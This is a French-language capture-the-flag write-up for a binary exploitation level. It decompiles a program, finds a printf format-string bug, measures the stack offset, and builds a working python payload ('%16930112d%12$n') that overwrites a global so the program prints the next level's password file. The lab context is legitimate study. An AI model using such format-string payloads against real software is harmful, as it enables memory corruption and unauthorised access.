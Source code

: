 ## Level 4

Comme au niveau précédent, nous décompilons le binaire.

Appart le main, on retrouve deux fonctions p() et n().

n() fonctionne comme a l'exercice d'avant, il faut donc a nouveau exploiter les
formats strings.

![image](https://user-images.githubusercontent.com/29956389/94685649-0312b700-032a-11eb-9d8b-079d598b17ba.png)

![image](https://user-images.githubusercontent.com/29956389/94685679-0dcd4c00-032a-11eb-91fe-978e2c298a96.png)

![image](https://user-images.githubusercontent.com/29956389/94685729-22a9df80-032a-11eb-80d6-26a2ba95b231.png)

p() fait juste un appel a printf();


Par contre, la valeur a réécrite dans `_m` vaut `0x1025544` soit `16 930 116` en
décimal. Cette variable se situe a l'adresse `0x08049810`.

On commence par trouver l'offset de notre argument dans la stack:

`$ ./level4`
> BBBB %x %x %x %x %x %x %x %x %x %x %x %x

On observe que la valeur `0x42424242 (BBBB)` est décalé de 12, due a l'appel de
fonction `p()` entre le `fgets()` et le `printf()`. On sait donc qu'il faudra utiliser
`'%12$n'`.

Avec toutes ces informations, on construit donc la commande:

`$ python -c 'print "\x10\x98\x04\x08" + "B"*16930112 + "%12$n"' | ./level4`

Sauf que écrire plus de 16 millions de `B` ne fonctionne évidement pas. (Et tant mieux)

On va donc allez un pas plus loin dans l'exploitation des format string, en
utilisant la taille de champ de `printf()`. Ce qui nous donne :

`$ python -c 'print "\x10\x98\x04\x08" + "%16930112d" + "%12$n"' | ./level4`

Ce qui nous permet d'éviter de passer 16 millions de charactères, mais ils seront quand meme inséré par `printf()` lors de l'évalutation du format.

Pas besoin cette fois ci d'écrire le retour de la fonction dans un fichier, car
la commande executé par `system()` n'est pas un shell mais, `cat
/home/user/level5/.pass`.

Le flag est donc directement affiché sur notre terminal.
